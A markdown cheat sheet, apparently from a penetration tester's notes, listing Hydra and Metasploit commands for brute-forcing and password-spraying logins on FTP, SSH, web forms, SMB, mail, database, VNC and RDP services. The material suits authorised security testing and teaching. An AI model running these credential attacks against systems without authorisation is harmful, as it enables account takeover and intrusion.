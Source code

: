 
> [!NOTE] NOTE
> `Medusa` works the exact same way command wise

### Common Services
FTP
```shell
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt ftp://192.168.1.100
```
SSH
```shell
hydra -l root -P ~/opt/wordlists/2023-200_most_used_passwords.txt ssh://192.168.1.100
```
HTTP Authentication
```shell
hydra -L usernames.txt -P passwords.txt www.example.com http-get
```
HTTP GET/POST
```shell
hydra [options] target http-post-form "path:params:condition_string"

hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```
SMB
```bash
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt smb://192.168.1.100
```
SMBv3
```bash
msf6 > use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
```
SMTP, POP3, IMAP
```shell 
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt smtp://mail.server.com
hydra -l user@adot8.com -P ~/opt/wordlists/2023-200_most_used_passwords.txt pop3://mail.server.com
hydra -l user@adot8.com-P ~/opt/wordlists/2023-200_most_used_passwords.txt imap://mail.server.com
```
MySQL, MSSQL
```shell 
hydra -l root -P ~/opt/wordlists/2023-200_most_used_passwords.txt mysql://192.168.1.100
hydra -l sa -P ~/opt/wordlists/2023-200_most_used_passwords.txt mssql://192.168.1.100
```
VNC, RDP
```shell
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt vnc://192.168.1.100
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt rdp://192.168.1.100
```
### Additional Options
Target multiple targets (password spray scenario)
```shell
hydra -l root -p toor -M targets.txt ssh
```
Non standard port `-s`
```shell
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```
Web app login page, successful login code 302 (moved)
```shell
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```
Imagine youre testing `RDP` and you know the username is `Administrator` and the password consists of 6 to 8 characters...
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```